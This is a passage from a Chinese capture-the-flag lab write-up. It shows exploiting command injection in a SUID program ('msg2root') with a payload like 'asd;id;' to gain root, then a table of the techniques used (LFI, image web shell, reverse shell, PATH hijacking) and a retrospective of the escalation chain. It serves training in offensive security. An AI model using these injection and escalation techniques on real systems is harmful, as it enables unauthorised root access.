

执行程序：

```
./msg2root
```

程序要求输入一段消息发送给 root，输入任意内容后程序正常结束



使用 `strings` 查看程序中的字符串

```
strings msg2root
```



发现程序通过 `system()` 执行以下命令：

```
/bin/echo %s >> /root/messages.txt
```

其中 `%s` 是用户提交的输入内容

由于 `/bin/echo` 使用绝对路径，无法继续采用前面的 PATH 劫持方式

但程序直接将用户输入拼接到系统命令中，存在命令注入风险

### 5.6 构造命令注入 Payload

正常输入：

```
asdasd
```

实际执行的命令相当于：

```
/bin/echo asdasd >> /root/messages.txt
```

如果在输入中加入分号，就可以结束原本的 echo 命令，并执行额外命令

例如：

```
asd;id;
```

拼接后相当于：

```
/bin/echo asd;id; >> /root/messages.txt
```

其中 `id` 会作为独立命令执行



实际测试确认命令注入可行



进一步利用命令注入执行命令，成功获得 root 权限



## 6. Flag

成功获取 root 权限，读取最终 Flag



## 7. 核心考点

| 考点              | 利用位置                       | 核心原理                                   |
| ----------------- | ------------------------------ | ------------------------------------------ |
| PHP Filter        | `?page=`                       | 使用 `convert.base64-encode` 读取 PHP 源码 |
| MySQL 凭据泄露    | `config.php`                   | 源码泄露获取数据库账号密码                 |
| Base64 解码       | `Users.users`                  | 还原数据库中的用户密码                     |
| 文件上传 + LFI    | `upload.php`、`index.php`      | 上传图片马后通过文件包含执行 PHP 代码      |
| PHP Reverse Shell | Web Shell                      | 建立反向连接获取交互式 Shell               |
| SUID              | `exim4`、`msgmike`、`msg2root` | 利用高权限程序实现权限提升                 |
| PATH Hijacking    | `msgmike`                      | 劫持相对命令名对应的可执行文件             |
| Command Injection | `msg2root`                     | 利用 `system()` 拼接用户输入执行任意命令   |

## 8. 复盘

本靶场的主要提权路径并非直接利用系统漏洞，而是围绕程序执行逻辑展开

- **源码审计**：PHP Filter 不仅能够读取系统文件，也可以用于还原 PHP 源码，进一步发现数据库凭据和文件包含逻辑
- **凭据复用**：数据库中的用户密码为后续横向切换提供了条件
- **PATH 劫持**：程序使用 `system()` 调用相对命令名时，如果执行环境中的 `$PATH` 可控，就可能执行攻击者构造的同名程序
- **命令注入**：程序将用户输入直接拼接进 `system()` 命令字符串，且没有进行有效过滤，最终导致 root 权限命令执行

本次提权链路：

```
kent
 │
 │ 已获取的用户凭据
 ▼
kane
 │
 │ PATH Hijacking
 ▼
mike
 │
 │ Command Injection
 ▼
root
```
